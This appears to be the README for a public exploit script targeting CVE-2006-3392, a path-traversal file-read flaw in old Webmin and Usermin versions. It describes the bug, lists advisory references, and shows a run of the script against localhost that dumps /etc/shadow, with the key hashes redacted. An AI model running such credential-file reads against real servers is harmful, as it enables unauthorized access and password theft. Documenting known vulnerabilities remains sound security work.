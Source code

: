 # CVE-2006-3392

## Description

Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML, which allows remote attackers to read arbitrary files, as demonstrated using "..%01" sequences, which bypass the removal of "../" sequences before bytes such as "%01" are removed from the filename. NOTE: This is a different issue than CVE-2006-3274.

## Execution
```
$ python3 CVE-2006-3392.py -u http://127.0.0.1:10000


   _______      ________    ___   ___   ___    __       ____ ____   ___ ___  
  / ____\ \    / /  ____|  |__ \ / _ \ / _ \  / /      |___ \___ \ / _ \__ \ 
 | |     \ \  / /| |__ ______ ) | | | | | | |/ /_ ______ __) |__) | (_) | ) |
 | |      \ \/ / |  __|______/ /| | | | | | | '_ \______|__ <|__ < \__, |/ / 
 | |____   \  /  | |____    / /_| |_| | |_| | (_) |     ___) |__) |  / // /_ 
  \_____|   \/   |______|  |____|\___/ \___/ \___/     |____/____/  /_/|____|

                              [Coded by MrEmpy]

[*] File path: /etc/shadow
root:[REDACTED]:17406:0:99999:7:::
daemon:*:17047:0:99999:7:::
bin:*:17047:0:99999:7:::
sys:*:17047:0:99999:7:::
sync:*:17047:0:99999:7:::
games:*:17047:0:99999:7:::
man:*:17047:0:99999:7:::
lp:*:17047:0:99999:7:::
mail:*:17047:0:99999:7:::
news:*:17047:0:99999:7:::
uucp:*:17047:0:99999:7:::
proxy:*:17047:0:99999:7:::
www-data:*:17047:0:99999:7:::
backup:*:17047:0:99999:7:::
list:*:17047:0:99999:7:::
irc:*:17047:0:99999:7:::
gnats:*:17047:0:99999:7:::
nobody:*:17047:0:99999:7:::
libuuid:!:17047:0:99999:7:::
Debian-exim:!:17047:0:99999:7:::
statd:*:17047:0:99999:7:::
sshd:*:17047:0:99999:7:::
mysql:!:17047:0:99999:7:::
proftpd:!:17406:0:99999:7:::
ftp:*:17406:0:99999:7:::
webmaster:[REDACTED]:17406:0:99999:7:::
```

## References
* https://nvd.nist.gov/vuln/detail/CVE-2006-3392
* http://attrition.org/pipermail/vim/2006-July/000923.html
* http://attrition.org/pipermail/vim/2006-June/000912.html
* http://secunia.com/advisories/20892
* http://secunia.com/advisories/21105
* http://secunia.com/advisories/21365
* http://secunia.com/advisories/22556
* http://security.gentoo.org/glsa/glsa-200608-11.xml
* http://www.debian.org/security/2006/dsa-1199
* http://www.kb.cert.org/vuls/id/999601
* http://www.mandriva.com/security/advisories?name=MDKSA-2006:125
* http://www.osvdb.org/26772
* http://www.securityfocus.com/archive/1/439653/100/0/threaded
* http://www.securityfocus.com/archive/1/440125/100/0/threaded
* http://www.securityfocus.com/archive/1/440466/100/0/threaded
* http://www.securityfocus.com/archive/1/440493/100/0/threaded
* http://www.securityfocus.com/bid/18744
* http://www.vupen.com/english/advisories/2006/2612
* http://www.webmin.com/changes.html
